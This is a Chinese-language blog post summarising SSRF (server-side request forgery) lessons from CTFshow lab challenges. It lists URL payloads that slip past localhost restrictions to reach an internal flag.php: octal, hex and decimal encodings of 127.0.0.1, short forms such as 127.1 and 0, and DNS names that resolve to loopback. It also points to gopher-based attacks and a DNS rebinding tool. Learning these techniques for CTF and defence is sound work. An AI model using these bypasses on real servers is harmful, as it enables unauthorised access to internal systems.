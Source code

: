 ```yaml
---
title: SSRF服务器端请求伪造
date: 2024-05-15 21:53:24
permalink: /pages/e3017f/
categories:
  - web
tags:
  - php
  - SSRF
author: 
  name: Cola
  link: https://the0n3.top
---
```


# SSRF服务器端请求伪造

前面刷了ctfshow的ssrf基础，总结下相关芝士

::: tip
 SSRF(Server-Side Request Forgery,服务器请求伪造)是一种由攻击者构造请求,**由服务端发起请求的安全漏洞**,一般情况下,SSRF攻击的目标是外网无法访问的内网系统
:::

**简单讲，SSRF是利用了服务器发起了请求，绕过了对ip的限制。例如，mysql默认是只允许localhost连接。**在CTFshow靶场中，常见题目类型考察本地ip地址的利用

举例说明：

![flag](https://the0n3.top/medias/ssrf0/2.png)

直接访问flag.php时会提示禁止本地用以外的用户访问，题目中的函数curl_exec()函数会请求目标url，此时的请求是由服务器发起的，可以利用`gopher`协议ssrf打内网服务

![url](https://the0n3.top/medias/ssrf0/3.png)

实际利用场景可以学习B站橙子科技陈腾老师[使用SSRF对组件利用](https://space.bilibili.com/271803648/video)

![ssrf](https://the0n3.top/medias/ssrf0/1.png)

## 本地IP地址的各种进制

#默认

http://127.0.0.1

#16进制

http://0x7F000001

#10进制

((127*256+0)*256+0)*256+1 //计算过程

http://2130706433

#8进制

url=http://0177.0000.0000.0001/flag.php  //八进制

url=http://0177.0.0.1/flag.php         

## 0

```plaintext
url=http://127.1/flag.php
url=http://0/flag.php          //0在linux系统中会解析成127.0.0.1，在windows中解析成0.0.0.0失败
```

0.0.0.0表示任何IP地址，也可以表示本地

http://0.0.0.0

http://0.0.0

http://0.0

http://0

## 域名解析

域名dns解析到127.0.0.1，例如sudo.cc

[dns重绑工具](https://lock.cmpxchg8b.com/rebinder.html)
